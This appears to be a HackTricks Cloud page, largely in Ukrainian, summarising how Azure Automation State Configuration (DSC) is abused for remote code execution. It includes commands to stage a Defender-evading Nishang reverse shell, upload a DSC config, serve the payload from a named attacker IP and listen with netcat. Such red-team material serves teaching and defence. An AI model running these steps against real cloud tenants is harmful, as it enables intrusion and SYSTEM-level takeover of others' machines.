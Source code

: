 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Процес включає налаштування інфраструктури віддаленого сервера для розміщення модифікованого корисного навантаження Nishang `Invoke-PowerShellTcp.ps1`, названого `RevPS.ps1`, призначеного для обходу Windows Defender. Корисне навантаження подається з машини Kali Linux з IP `40.84.7.74` за допомогою простого Python HTTP сервера. Операція виконується через кілька етапів:

#### Step 1 — Create Files

* **Files Required:** Потрібні два скрипти PowerShell:
1. `reverse_shell_config.ps1`: Файл Desired State Configuration (DSC), який отримує та виконує корисне навантаження. Його можна отримати з [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Скрипт для публікації конфігурації на VM, доступний на [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Змінні та параметри в цих файлах повинні бути адаптовані до конкретного середовища користувача, включаючи імена ресурсів, шляхи до файлів та ідентифікатори сервера/корисного навантаження.

#### Step 2 — Zip Configuration File

* Файл `reverse_shell_config.ps1` стискається в `.zip` файл, що робить його готовим для передачі до Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Крок 3 — Встановлення контексту зберігання та завантаження

* Стиснутий файл конфігурації завантажується в заздалегідь визначений контейнер зберігання Azure, azure-pentest, за допомогою команди Set-AzStorageBlobContent Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Крок 4 — Підготовка Kali Box

* Сервер Kali завантажує корисне навантаження RevPS.ps1 з репозиторію GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Скрипт редагується для вказівки цільової Windows VM та порту для зворотного шелу.

#### Крок 5 — Опублікувати файл конфігурації

* Файл конфігурації виконується, в результаті чого скрипт зворотного шелу розгортається у вказаному місці на Windows VM.

#### Крок 6 — Хостинг корисного навантаження та налаштування прослуховувача

* Запускається Python SimpleHTTPServer для хостингу корисного навантаження, разом з прослуховувачем Netcat для захоплення вхідних з'єднань.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Заплановане завдання виконує корисне навантаження, досягаючи привілеїв рівня SYSTEM.

#### Висновок

Успішне виконання цього процесу відкриває численні можливості для подальших дій, таких як витік облікових даних або розширення атаки на кілька ВМ. Посібник заохочує до продовження навчання та креативності в сфері Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

